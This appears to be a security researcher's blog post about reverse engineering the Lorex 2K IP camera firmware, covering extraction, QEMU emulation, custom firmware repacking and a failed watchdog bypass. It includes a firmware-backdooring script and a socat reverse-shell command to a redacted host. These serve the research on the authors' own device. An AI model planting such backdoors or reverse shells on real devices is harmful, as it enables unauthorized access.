




## Introduction
In the [previous part of this series](not-all-roads-lead-to-pwn2own-hardware-hacking-part-1.html), we have dissected the Lorex 2K IP Camera from an hardware perspective. The main objectives were to obtain an an interactive shell and extract the firmware for further analysis. Although the first point was not achieved due to the target hardening, we were able to extract the firmware. Since we also had the capability to re-flash the firmware with a modified version of it, we could re-create a new version (a custom firmware) with extra debug capabilities to finally embrace the Vulnerability Discovery phase with a solid target. However, as we have introduced in the first post of this series, this was also our sentence to the overall objective (0day) failure. We were able to re-create a custom firmware with custom binaries and with an interactive shell, but with a limit of 40 seconds. The limit was, presumably, some sort of integrity validation at later stages of the booting process. Since we were able to execute arbitrary commands to the target system through a customized firmware, we were thinking that we were just a little bit far from a stable shell. This "little far" turns out into the reversing (and emulation) of the whole filesystem image, multiple ARM32 binaries and kernel modules that were also patched to bypass what we thought was the root cause of the reboot trigger. This whole process took us too much time and effort (~75%) compared to what we have allocated for the whole project (two weeks). However, it was a really instructive, fun and interesting experience and that's why today we are sharing further details. If you are interested in using binwalk, qemu, bash/python scripting, dd, Binary Ninja, Ghidra, cross compiling and these topics, hope you will enjoy this post.

## Firmware analysis
In the previous [blog post](not-all-roads-lead-to-pwn2own-hardware-hacking-part-1.html), we have extracted the firmware blob that we have directly passed to [binwalk](https://github.com/ReFirmLabs/binwalk) to search for the first signals of self contained images. binwalk is a really interesting and helpful tool that can be used to identify images mainly through magic bytes inside a blob of data. Usually, a [firmware](https://en.wikipedia.org/wiki/Firmware) is a just series of bytes that comprehends at least the boot loader, the kernel, the root filesystem and a series of filesystem images that can be mounted and used to store multiple types of data based on the needs.



With this output, we have clearer overview of self contained images in the firmware. binwalk offers the `-E` option that permits to automatically extract all images that it is able to identify in the data. Usually, this is enough to have a valid working image but you have to trust its extraction process (more on that later). By extracting the whole content, an interesting file called `partitionV2.txt`, part of the firmware image, contains the partitioning map of the image:
```plain
# Version=3
#       name                cs         offset              size         mask_flags     fs_flags      fs_type         mount_cmd                                                        backup_off
  U-Boot,             0, 0x0000000000000000,    0x0000000000030000,             RW,                ,             ,                           ,                                        0xffffffffffffffff,
  hwid,               0, 0x0000000000030000,    0x0000000000010000,             RW,            ,                 ,               ,                                                    0xffffffffffffffff,
  partition,          0, 0x0000000000040000,    0x0000000000010000,             RW,                        R,            cramfs,         ,                                            0xffffffffffffffff,
  Kernel,             0, 0x0000000000050000,    0x0000000000150000,             RW,            ,                 ,               ,                                                    0xffffffffffffffff,
  romfs,              0, 0x00000000001A0000,    0x0000000000610000,             RW,            R,            squashfs,       ,                                                        0xffffffffffffffff,
  config,             0, 0x00000000007B0000,    0x0000000000050000,                 RW,            RW,           jffs2,          "mnt_jffs2 /dev/mtdblock5 /mnt/mtd jffs2",           0xffffffffffffffff,
```

With that information, combined with guessed (and retrieved) information from `binwalk`, we can clearly identify key parts of the image: the bootloader that starts at `0x0`, the kernel at `0x50000` and the root file-system (`romfs`) at `0x1A0000`. Apart of these key parts of the firmware also other partitions were identified with their offset, size and file-system type (cramfs, jfss2 and squashfs): hwid, partition, config.

### Root filesystem analysis
One of the most interesting things from a firmware image of an embedded device, from a vulnerability hunting point of view, is the root file system. Here we find main binaries and services that are exposed in the target device (web services, custom protocols, *backdoors*, ..). Starting from the init scripts (scripts and binaries that are executed just after the kernel initialization phase) is a good starting point to have an initial clue of the product inner workings. The `/etc/initab` file tells us that `/etc/init.d/dnode` and `/etc/init.d/rcS` are executed at the system startup. The `dnode` script is responsible to mount previously mentioned filesystems through `mount -a` (with partitions configured in the `fstab` file), configure some character devices and adjust some directory permissions. However, the most interesting init script is `rcS`. Its responsibility is to configure the whole system, load kernel modules (from other scripts) and start all product services.

```bash
#!/bin/bash

# ...
KEYBOARD=0
CMDLINE="/proc/BootInfo/bootpara"
KEYBOARD=`cat $CMDLINE`
KEYBOARD=${KEYBOARD##*dh_keyboard:}
KEYBOARD=${KEYBOARD%%ethaddr*}
if [ $KEYBOARD == '1' ];then
    echo "keyboard = 1"
    ln -s /dev/null /dev/mytty

else
    echo "keyboard = 0"
    ln -s /dev/ttyS0 /dev/mytty
fi

# 生产程序启动telnetd
if [ -f /usr/data/imgFlag ]; then
    /sbin/telnetd &
fi
# ...
```

The *partial* `rcS` content below shows some interesting key points. The `/proc/BootInfo/bootpara` and `/usr/data/imgFlag` files are used to enable some debug capabilities. The first retrieves the `KEYBOARD` value and this can be potentially set from the bootloader argument, but we were not able to dynamically modify bootloader parameters at boot time (neither in the firmware image directly as we will see later). If set, as the default production configuration, the tty is symlinked to `/dev/null` and for that reason, we couldn't see a lot of logs from the UART interface.
The second file `/usr/data/imgFlag` seems really interesting because it's a clear and straightforward way to enable some debug capabilities executing `telnetd` in background. However, `/sbin/telnetd` in the file-system image is a symlink to busybox and, the installed version of busybox in the firmware did not supported telnet. Hence, also by executing `telnetd` (or enabling that debug capability creating the file) we would not be able to spawn the telnet service.

```bash
# ...
/usr/etc/imod
# ...
APPAUTO=0
CMDLINE="/proc/BootInfo/bootpara"
APPAUTO=`cat $CMDLINE`
APPAUTO=${APPAUTO##*appauto:}
APPAUTO=${APPAUTO%%dh_keyboard*}

if [ $APPAUTO == '1' ];then
	echo "appauto=1"
    #dh_keyboard位是1时将sonia的输出屏蔽掉
    if [ $KEYBOARD = '1' ]; then
        /usr/bin/sonia $sonia_para 2>/dev/null 1>/dev/null
    else
        /usr/bin/sonia $sonia_para
    fi
else
	echo "appauto=0"

    if [ $KEYBOARD == '1' ];then
	echo "keyboard = 1"
	while [ 1 ]
	do
		busybox sleep 60
	done
    else
        echo "keyboard = 0"
        sh
    fi
fi
```

The `rcS` script also executes `/usr/etc/imod` that is mainly responsible to load kernel modules, but we will treat that argument later. The last code from the `rcS` init script responsible to start the main binary `/usr/bin/sonia` in two different ways based on specific parameters (`APPAUTO` and `KEYBOARD`) as can be seen. Almost all services in the Lorex 2K IP Camera are handled directly from that fat binary. For that reason, we nickamed it "sonia-centric".

After that quick overview of the IP Camera boot process, we wanted to achieve two things: emulate it and customize the firmware for a stable working environment. Let's start with the emulation process that was useful for the second part.

### Just emulate it 
The title of this chapter is inspired from the article [How to “Just Emulate It With QEMU”](https://www.zerodayinitiative.com/blog/2020/5/27/mindshare-how-to-just-emulate-it-with-qemu) that demonstrates how "just emulate it with qemu" is not always an easy task. 
When starting to dive into something is always important to keep the objective in mind, and in our case the emulation goal was to have a working emulated environment for debugging and (why not) fuzzing and exploitation purposes. This part is not intended to be a 101 on how to use qemu because there are plenty of public resources but will discuss the approach. In order to emulate a system in qemu we need two basic things: a **kernel** and a **root file system**. We already have the root file system (from the firmware) and potentially also the kernel (remember the firmware structure?). However, the kernel is usually compiled specifically for a board and honestly, since we were not planning to attack the kernel directly, a manual compiled kernel was more than enough and easier to build and debug.

#### Just compile the kernel
From the firmware image we retrieve the exact kernel version and from the identified SOC the exact architecture: Linux 4.9.84 on ARM32 EABI . With that information, we can configure necessary toolchains (from apt as shown below or directly from [linaro repositories](https://releases.linaro.org/components/toolchain/binaries/4.9-2017.01/arm-eabi/gcc-linaro-4.9.4-2017.01-x86_64_arm-eabi.tar.xz)), download the exact kernel version from kernel.org, apply a [little patch](https://github.com/BPI-SINOVOIP/BPI-M4-bsp/issues/4) for a known compilation issue, configure the kernel with `vexpress_defconfig` config specifying the cross compilation option with `arm-linux-gnueabi-`, remove `SMP` and `PREEMPT` (to match as much as possible the real target) and finally compile it:
```bash
sudo apt-get install build-essential libncurses-dev bison flex libssl-dev libelf-dev
sudo apt install gcc-arm-linux-gnueabi

wget https://cdn.kernel.org/pub/linux/kernel/v4.x/linux-4.9.84.tar.xz
tar -xvf linux-4.9.84.tar.xz
cd linux-4.9.84/

## apply the patch (https://github.com/BPI-SINOVOIP/BPI-M4-bsp/issues/4)
vim scripts/dtc/dtc-lexer.l

make ARCH=arm CROSS_COMPILE=arm-linux-gnueabi- vexpress_defconfig
echo "CONFIG_SMP=n" >> .config
echo "CONFIG_PREEMPT=y" >> .config
make ARCH=arm CROSS_COMPILE=arm-linux-gnueabi- olddefconfig
make ARCH=arm CROSS_COMPILE=arm-linux-gnueabi- -j $(nproc)
```

#### Just use the firmware image
We have a compiled kernel, now we *just need* to use the extracted firmware image as the root file system. However, we wanted to apply some changes in order to have more control over our environment and for that, we had to *unsquash* and *resquash* the image. As we have seen before, we can easily extract images from a data blob using binwalk. However, you have to trust its (reliable but automated) extraction process. We can use `dd` to precisely extract the root file system (of type squashfs) from the firmware directly using parameters identified in the `partitionV2.txt` file previously shown. With the extracted image we can now *unsquash* it (`unsquashfs`), modify the content and *re-squash* it (`mksquashfs`)

```bash
squashfs_size=6356992 # partitionV2.txt
squashfs_offset=1703936
dd if="$fw_original" of="$squashfs_original" bs=1 skip=$squashfs_offset count=$squashfs_size
```

With that, we can reliable extract the image and make appropriate changes for our emulated environment needs since the original firmware is restricted in many ways. For example, we can cross-compile a more complete busybox binary version in order to have more available commands, gdb and so on. 
Instead of *squashing* the image every time, it is also possible to quickly create an initramfs from it:
```bash
BACK=$(pwd)
TOP=$(realpath ./image/)
cd $TOP/squashfs-root/
find . | cpio -H newc -o > ../initramfs.cpio
cd ..
cat initramfs.cpio | gzip > $TOP/initramfs.gz
cd $BACK
```

#### Just put everything together
Now we have a working kernel and a customized firmware image and we only want to put pieces together and make it run. To achieve that, can use `qemu-system-arm` with the following options:
```bash
#!/bin/bash

KERNEL=./kernel/linux-4.9.84/arch/arm/boot/zImage
IMAGE=./image/initramfs.gz
qemu-system-arm \
        -M virt \
        -nographic \
        -kernel $KERNEL \
        -initrd $IMAGE \
        -append "init=/bin/sh" \
        -m 256M \
        -snapshot
```

And..


We have a working emulated environment!

### Next steps after the emulation
#### Sonia, can you execute?
The first hope we had was to be able to execute the main binaries in order to find a vulnerability on them and develop a reliable exploit. However, things didn't turn out in the best ways. 
As we have mentioned, most of our target services are exposed from a single binary (`sonia`) and by just executing it, tons of errors were coming out. This is normal and it frequently happens, sometimes it is needed to accomodate some configurations, dependencies or simulate/bypass some behaviors. However, in this case, the `sonia` binary **highly** depends on a multitude of hardware interactions (through character devices of custom kernel modules) that "accommodating" everything would required an incredible effort. We even tried to "cheat" (just to have at least the web service running) by creating a custom kernel driver (in our compiled kernel) that was returning `0` or `1` (we tried both) on all `open`/`read`/`write`/`ioctl` operations, associating with a symlink all character devices to that one. At first, it seemed to work (the binary was going far away from the previous state) but then it was depending on real data from hardware peripherals and at some point, it was failing and exiting.

#### Deploy custom firmwares
Going through the road of emulate hardware interactions was insane due to the time we had allocated, so we choose to use the emulated environment to debug internal behaviors, test cross compiled binaries (unfortunately, we had to) in order to achieve a custom firmware to be deployed in the flash of our target.

## Flashing a custom firmware
At first, we thought that by modifying some firmware parts (especially the root file system) we would have broken the boot chain in its early stages (e.g. the bootloader) due to some integrity failures in the firmware image itself. We tried anyway to modify some firmware parts, flash the new firmware and see what happens. At first everything was ok, the system was booting up without any integrity failures and that's the point where we decided to choose that road: modify the firmware just to have a first foothold on it.

### Modify boot parameters
By looking at the firmware strings (using the `strings` command) we stumbled in an interesting string at offset `0x300000` that looked exactly like the boot parameters that are given to the kernel from the bootloader:

```plain
bootargs=mem=64M console=ttyS0,115200 root=/dev/mtdblock5 rootfstype=squashfs
```

What if we change the bootloader arguments to just execute the `/bin/sh` binary? That's what we tried. In order to keep the original size and do less noise as possible, we replaced the string `rootfstype=squashfs` with `init=/bin/sh` instead of just appending. The replacement was not randomly chosen. Since the kernel can easily guess the filesystem type, specifying its type is optional and can be avoided without side effects. We have also padded, with some spaces, missing bytes and ... **we got a shell** !!!

Well, a *read-only*, shell. Just a little detail, right?

Unfortunately we only had read-only access through the UART interface and, also with the herthbreaking `#` in front of us, we could not execute anything.

### Customize the root file system
Ok, with a little bit of disappointment with the first failure, we were still hyped and hopeful to achieve a first foothold in the system by customizing some parts of the firmware. Targeting the root file system directly seemed really interesting because you can interfere with the init process and execute your own commands. We tried to modify some files without evident side effects and the firmware was, oddly, accepted and booted up! However, **after 40 seconds, the system was rebooting itself**...

#### Cleanly extract and repack the filesystem
As we have seen previously, binwalk is really useful but, sometimes, having direct control over the most low-level command for a specific task can avoid issues that can potentially be introduced by a third-party tool (e.g. binwalk in this case). For that reason, we directly used `dd`, `unsquashfs` and `mksquashfs` to recreate valid filesystem images. Due to the repetitive nature of this task, we have developed a basic script, called `edward-manidiforbice.sh`, that helped us to automate that process (and avoid common mistakes):

```bash
#!/bin/bash
# script: edward manidiforbice v0.3.2

cat << EOF
    _    _
   (_)  / )
     | (_/
    _+/
   //|\\
  // | )
 (/  |/      edward manidiforbice v0.3.2 - by xonoxitron & kiks

EOF

# Constants
fw_original="firmware_dump.bin"
fw_output="backdoored_firmware.bin"
squashfs_original="squashfs"
squashfs_modified="squashfs-mod"
squashfs_out="unsquashedfs"
squashfs_size=5835455
squashfs_offset=1703936

# Cleaning
rm -rf squashfs-root/;
rm backdoored_firmware.bin;
rm squashfs-mod;

echo "# Extracting squafsh filesystem ..."
dd if="$fw_original" of="$squashfs_original" bs=1 skip=$squashfs_offset count=$squashfs_size
unsquashfs $squashfs_original

echo "# Backdooring filesystem ..."
# shirnk other stuff
# echo 1 > ./squashfs-root/etc/services			# 16kb
cp ./patch/rcS ./squashfs-root/etc/init.d/rcS
rm ./squashfs-root/bin/dsh 			# 256kb

echo "# Re-creating backdoored squashfs image ..."
mksquashfs ./squashfs-root/ $squashfs_modified -noappend -b 1048576 -Xbcj arm,armthumb -comp xz -Xdict-size 1048576

squashfs_modified_size=$(stat -c%s "$squashfs_modified")
size_difference=$(($squashfs_size - squashfs_modified_size))
echo "# Recreated squashfs image: $squashfs_modified_size"
echo "# Difference between FSs: $size_difference bytes"

cp $fw_original $fw_output

dd if=$squashfs_modified of=$fw_output seek=$squashfs_offset bs=1 conv=notrunc
dd if=/dev/zero  of=$fw_output seek=$((squashfs_offset + squashfs_modified_size)) count=$size_difference bs=1 conv=notrunc

echo "# Done."
```

The custom firmware recreation needed to take care of a really important thing: in the firmware image, the root file-system is in between multiple sections, meaning that we cannot recreate a filesystem larger than the one that we have. Another annoying factor is that typically firmwares for embedded devices are usually skinned of everything that is not useful to the production use case, leaving us with a really really limited environment. Other things to be aware are the characteristics of the squashfs file-system that we have:
- It is a read-only filesystem - we cannot write files at runtime.
- Its block size is 4KiB (4096 bytes).

We overcome the read-only file-system issue by manually mounting the sdcard (`mount -o rw,exec /dev/mmc0p1 /mnt/sd`) in the init process and using it to write files at runtime. The second point is crucial when we want to add or delete files in the image. The final image of this file-system is "aligned" to 4096 bytes, meaning that it's possible to modify 4.000 bytes without changing the final size of the image but that we need to delete files if we need to write more than that (for that reason, the last lines of the script was checking exactly that before injecting the newly created image in the "new" firmware).

#### Backdoor the init process
Without hardware input sources, also a customized firmware that spawns a `/bin/sh` on its initialization phase wasn't enough. Also, execute sporadically bash commands was not that interesting. However, if you remember from the [previous article](not-all-roads-lead-to-pwn2own-hardware-hacking-part-1.html), we had manually soldered ethernet pinouts from the hardware. Instead of just executing a classic `/bin/sh`, we could setup the ethernet interface (modifying the `/etc/init.d/rcS` script) with an assigned IP and, by directly connecting it to our PC, receive a reverse shell to finally have an interactive environment in our target.

```bash
ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 <REDACTED>
```

Setup the interface just requires the above commands that can be inserted inside the `rcS` init script. The reverse shell, however, was not that easy due to the high `busybox` limitations (without `telnetd`, `nc` or any useful command for a direct reverse shell) and that we are also limited in inserting a custom pre-compiled binary due do the size constraints mentioned above. To solve the size limitation we initially opted to re-compile and replace the busybox binary but then went for a quicker solution: remove what could be considered unnecessary for the camera in the system to save some space, and insert a precompiled binary executable that permitted a reverse shell (e.g. a compatible netcat, socat or a C file with a tiny shellcode). In this stage, the qemu environment turned out to be really useful to test things on a "similar" environment. At last, we achieved the result by putting a pre-compiled ARM32 EABI version of `socat` and executing it from the `rcS` script:

```bash
/bin/socat tcp-connect:<REDACTED>:4444 exec:/bin/sh,pty,stderr,setsid,sigint,sane &
```

And now.. we have a working (writable) shell!!

But again, **after 40 seconds**, the camera was rebooting itself..

#### 40 seconds.. to the hell
Everything that was done until this point didn't take too much time (few days), the "nightmare" started exactly from now on. Having a reverse shell limited to 40 seconds put us in a successful state of mind that was not "real", and this was the key point to the failure of the overall project. In our mind, ***we just needed*** to bypass some further integrity checks that were happening in later stages of the system process, but we thought that we were at the "*95% of the result*" (cit.). From now on, days and nights of firmware flashing, rabbit holes, reverse engineering, emotions rollercoaster and false hopes were just starting.

#### Freaking dog, is that you?
We were now able to execute bash commands through a customized firmware that we could directly flash. Then, after 40 seconds, something reboot the system. This seemed to us like a typical [watchdog](https://developer.toradex.com/software/linux-resources/linux-features/watchdog-linux/) scenario where, *someone at some point given specific conditions*, didn't correctly fed the dog. In fact, watchdog serves specifically for that purpose and is highly adopted in these kind of devices: the system reboot itself if no one has "interacted" in a specific way with the watchdog service, "telling" him that everything (e.g. the boot init) was fine.
In this case, the classic [watchdog linux daemon](https://linux.die.net/man/8/watchdog) was not used but were able to identify similar behaviors in the `rcS` and related scripts. 
Inside the `rcS` init script, we can identify the following commands with a chinese comment:

```bash
# ...
#安霸的看门狗最大超时时间只有65秒，所以在sonia启动前先喂一次狗
echo f > /proc/osa_root/pdc/pdcWdt
# ...
```

The translated chinese comment says: "*The maximum timeout of Ambarella's watchdog is only 65 seconds, so feed the watchdog before starting Sonia*". We also found the same command in other init scripts (like `/usr/etc/imod` and `/usr/etc/IPCimod`) with the same purpose. We could guess that by writing `f` into `/proc/osa_root/pdc/pdcWdt` we would feed the dog, but to be sure we wanted to quickly reverse engineer the kernel module that was handling it. The previously mentioned `/usr/etc/imod` script (executed from `rcS`) is responsible to load these kernel modules:

```bash
#!/bin/sh
busybox p7zip x /usr/lib/modules.7z /var/tmp/ > /dev/null
export KO_PATH=/var/tmp/modules
insmod $KO_PATH/mhal.ko isp_thread_priority=98
insmod $KO_PATH/mi_common.ko
insmod $KO_PATH/mi_sys.ko default_config_path=/usr/config logBufSize=0 cmdQBufSize=256
insmod $KO_PATH/mi_sensor.ko
# ...
```

We can extract the `/usr/lib/modules.7z` compressed file and search for the "pdcWdt" string occurrence in one of the modules and we quickly identified the `pdc.ko` module. By opening the binary in ghidra, we could easily find its usage:


We further reverse engineered the module to undertand its logic and we created tons of firmware with different feeding mechanisms: we `feed` it, set a new one from `start` and also tried to `end` it. All trys just lead to the same issue, a reboot after 40 seconds. Maybe there is another watchdog mechanism that we are not aware of?

#### Sonia, are you feeding the dog?
During this whole process, we also put a lot of effort into reversing (using Binary Ninja) the `sonia` binary, since the "sonia-centric" nature of the system. The binary is huge (6.6MB) and stripped (no debug symbols). However, due to the verbose logging on almost all functions, it was easier to recover original function names and understand the main logic. For example, the following `onP2PChannelHandler` function has been renamed like that due to the `may_log` (renamed from us) function call that receives as the third parameter the function or method name:


By looking around the binary searching for some watchdog references, we actually found the following function (renamed to `System_startWatchDogTimer`):

```C
000d6414  int32_t System_startWatchDogTimer(int32_t arg1, int32_t arg2)
000d6414      int32_t var_c = arg2
000d6414      int32_t var_10_1 = arg1
000d6414      
000d6418      if (arg1 != 0)
000d6438          if (sub_ae730(0x1a) == 1)
000d643c              PDI_wdtOpen(arg2)
000d6440              return 0
000d6418      else
000d6420          int32_t var_10 = 0x6d9
000d642a          log(arg1, 1, "[libpdi] ERROR  (%s|%d): para: t…", "System_startWatchDogTimer")
000d642a      
000d6444      return 0xffffffff
```

`PDI_wdtOpen` (manually renamed) is just opening the `/dev/pdcWdt` character device and store the file descriptor into a global variable. The same global variable is used in the following `PDI_wdtFeed` function to perform a specific `ioctl` operation (`0xc0105700`) on the global file descriptor with a custom structure as input (`var_28`):
```C
000adc6c  int32_t PDI_wdtFeed(int32_t arg1)
000adc7e      int32_t var_28 = 0xffffffff
000adc82      int32_t dev_pdcWdt_1 = dev_pdcWdt
000adc86      int32_t r0
000adc86      
000adc86      if (dev_pdcWdt_1 == 0)
000adc8e          r0 = open("/dev/pdcWdt", 2, 0xa7c, &data_645000)
000adc94          dev_pdcWdt = r0
000adc94      
000adc96      int32_t dev_pdcWdt_2
000adc96      char const* const r2
000adc96      
000adc96      if (dev_pdcWdt_1 == 0 && r0 s< 0)
000adc9c          int32_t var_30_1 = 0xaa
000adc9e          dev_pdcWdt_2 = dev_pdcWdt_1
000adca4          r2 = "[libpdi] ERROR  (%s|%d): wdt ope…"
000adc96      else if (arg1 == 2 || arg1 == 3 || arg1 == 1)
000adcbe          int16_t var_24_1 = arg1.w
000adcbe          
000adcc8          if (ioctl(dev_pdcWdt, 0xc0105700, &var_28) s>= 0)
000adcf6              return 0
000adcf6          
000adcce          int32_t var_30_2 = 0xcc
000adcd0          dev_pdcWdt_2 = 0
000adcd6          r2 = "[libpdi] ERROR  (%s|%d): Fail to…"
000adcb4      else
000adce0          int32_t var_30_3 = 0xc4
000adce2          dev_pdcWdt_2 = 0
000adce8          r2 = "[libpdi] ERROR  (%s|%d): The Wdt…"
000adce8      
000adcec      log(dev_pdcWdt_2, 1, r2, "PDI_wdtFeed")
000adcf0      return 0xffffffff
```

Is it possible that maybe we need to feed the watchdog from that character device as sonia is doing? For us, it seemed worth to try, the only effort needed was to reconstruct the valid struct for the `ioctl` operation with some reverse engineering.

We found out that Ghidra was doing a better job than Binary Ninja to reverse engineer ARM32 kernel modules (and vice versa for userland binaries). The `pdcWdt` character device is created in the `pdc.ko` module init function through some vendor customized wrapper functions:
```C
undefined4 PDC_wdtInit(void)

{
  /* .. */
  if (iVar1 < 0) {
    OSA_logWrite(0,1,"[pdc] ERROR  (%s|%d): Fail to create mutex!\n","PDC_wdtInit",0x4e2);
  }
  else {
    iVar1 = OSA_spinlockCreate(3,&DAT_00050fd0);
    if (iVar1 < 0) {
      OSA_logWrite(0,1,"[pdc] ERROR  (%s|%d): Fail to create hSpinLock!\n","PDC_wdtInit",0x4e8);
    }
    else {
      local_48 = 0;
      local_44 = 0;
      local_3c = &gWdtModule;
      local_40 = &gWdtCdevOps;
      local_4c = "pdcWdt";
      iVar1 = OSA_kCdevCreate(&local_4c,&gWdtModule);
      /* ...*/
```

The `OSA_kCdevCreate` module creates the `/dev/pdcWdt` device and assign the global `gWdtCdevOps` variable for its file operations, from which we can easily identify the `ioctl` handler (renamed to `WDT_ioctl`) and the previously identified `0xc0105700` ioctl command. By analyzing the kernel ioctl code parsing and the userland sonia feeding logic, we were able to reconstruct a valid C structure that we could use in the ioctl `0xc0105700` command:

```C
struct wdt_struct {
        int s1;
        int16_t s2;
        int16_t s3;
        int16_t s4;
        int16_t s5;
        int16_t s6;
        int16_t s7;
};
```

Following the sonia binary logic,  `wdt_struct.s1` is always set to `-1` while `wdt_struct.s2` accepts a decremental number starting from 3 to 1. `PDI_wdtFeed` is always called in `PDI_wdtFeed(3)`, `PDI_wdtFeed(2)`, `PDI_wdtFeed(1)` order. The remaining members of the struct are just a padding to avoid memory issues since the kernel is copying from userland (using a `copy_from_user` wrapper) `0x10` bytes.

The following C program has been created to "emulate" the sonia feeding behavior:
```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>

#define WATCHDOG_FEED  0xc0105700
#define DEV_NAME      "/dev/pdcWdt"

struct wdt_struct {
	int s1;
	int16_t s2;
	int16_t s3;
	int16_t s4;
	int16_t s5;
	int16_t s6;
	int16_t s7;
};

int PDI_wdtFeed(int dev_fd, int n){
  struct wdt_struct wdt_input;
  int res;
  printf("[*] v2 feeding watchdog with %d\n", n);
  wdt_input.s1 = -1;
  wdt_input.s2 = n;
  res = ioctl(dev_fd, WATCHDOG_FEED , &wdt_input);
  printf(" =>ioctl res: %d\n", res);
  return 0;
}

int main(int argc, char**argv){
	printf("[*] Watchdog feeder through /dev/pdcWdt\n");
  int n_sleep   = atoi(argv[1]);
  //int dev_fd    = open(DEV_NAME, 2);
  int dev_fd    = open(DEV_NAME, O_RDWR);
  if(dev_fd == -1){
    printf("[!] ERROR! cannot open file %s\n", DEV_NAME);
    exit(1);
  }
  while(1){
    PDI_wdtFeed(dev_fd, 3);
    PDI_wdtFeed(dev_fd, 2);
    PDI_wdtFeed(dev_fd, 1);
    printf("[*] Sleeping %d seconds\n", n_sleep);
    sleep(n_sleep);
  }
	printf("[*] Watchdog feeder end\n");
}
```

Due to size issues into recreating the firmware image, we also had to cross compile the binary while dynamically linking to the uClibc library. We did the same for busybox and compile these things with old toolchains and libc libraries is literally not funny at all. However, we compiled and executed it in a loop (as can be seen from the code) and... nothing, the system reboots after 40 seconds, again.

#### Looking from another perspective
We tried to feed the dog in multiple different ways, we wanted to achieve a stable reverse shell but couldn't. Maybe we were seeing something from the wrong perspective? We started to create custom firmwares with the only objective to debug early stages and retrieve as much logs as possible (especially from `dmesg`). We have used the mounted sdcard (remember?)  to write the logs and we used background processes to write the output of `dmesg` into `/mnt/sdcard/` (*we were taking into consideration that we were not in an SMP system*).
And from `dmesg` logs, we found some interesting and catchy strings:

```
...
[pdc] Both of Chief and Backup File CRC check OK!
[pdc] phyaddr = 23fc4000, memLen = 2000
[pdc] DDRdata crc incorrect, Load from sramFile
...
```

[CRC](https://en.wikipedia.org/wiki/Cyclic_redundancy_check) could stands for the classic checksum validation mechanism and we can see, from the output, that something is also failing in the integrity validation (*DDRdata crc incorrect*). Of course, that makes sense because we have modified the firmware image and at the start of it there is a CRC32 table (as can be seen from the first binwalk image). By looking around these strings in our already known `pdc.ko` module, we were able to identify, with ghidra, a classic pattern of decompiled code that looks exactly like CRC32 operations:

```C
uint PDC_crc32(uint param_1,byte *param_2,int param_3)
{
  uint uVar1;
  byte *idx_2;
  int iVar2;
  byte *idx;
  
  param_1 = ~param_1;
  if (7 < param_3) {
    idx = param_2 + 8;
    iVar2 = param_3;
    do {
      iVar2 = iVar2 + -8;
      uVar1 = *(&crc32_table + ((idx[-8] ^ param_1) & 0xff) * 4) ^ param_1 >> 8;
      uVar1 = *(&crc32_table + ((uVar1 ^ idx[-7]) & 0xff) * 4) ^ uVar1 >> 8;
      uVar1 = *(&crc32_table + ((uVar1 ^ idx[-6]) & 0xff) * 4) ^ uVar1 >> 8;
      uVar1 = *(&crc32_table + ((uVar1 ^ idx[-5]) & 0xff) * 4) ^ uVar1 >> 8;
      uVar1 = *(&crc32_table + ((uVar1 ^ idx[-4]) & 0xff) * 4) ^ uVar1 >> 8;
      uVar1 = *(&crc32_table + ((idx[-3] ^ uVar1) & 0xff) * 4) ^ uVar1 >> 8;
      uVar1 = *(&crc32_table + ((idx[-2] ^ uVar1) & 0xff) * 4) ^ uVar1 >> 8;
      param_1 = *(&crc32_table + ((idx[-1] ^ uVar1) & 0xff) * 4) ^ uVar1 >> 8;
      idx = idx + 8;
    } while (7 < iVar2);
    uVar1 = param_3 - 8U >> 3;
    param_3 = (param_3 - 8U) + uVar1 * -8;
    param_2 = param_2 + (uVar1 + 1) * 8;
  }
  if (param_3 != 0) {
    idx = param_2;
    do {
      idx_2 = idx + 1;
      param_1 = *(&crc32_table + ((*idx ^ param_1) & 0xff) * 4) ^ param_1 >> 8;
      idx = idx_2;
    } while (idx_2 != param_2 + param_3);
  }
  return ~param_1;
}

```

